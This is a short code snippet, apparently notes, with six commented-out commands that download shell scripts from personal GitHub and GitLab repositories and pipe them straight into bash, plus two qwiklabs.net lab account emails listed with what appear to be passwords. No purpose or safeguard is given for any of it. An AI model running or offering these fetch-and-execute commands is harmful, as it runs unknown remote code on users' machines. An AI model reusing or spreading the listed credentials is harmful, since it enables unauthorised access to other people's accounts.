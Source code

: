 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash

# student-04-871e8e0fd1ff@qwiklabs.net Fb4zyO6KDdPc
# student-01-8ff4f028ff4b@qwiklabs.net Uub1lN7wxx09
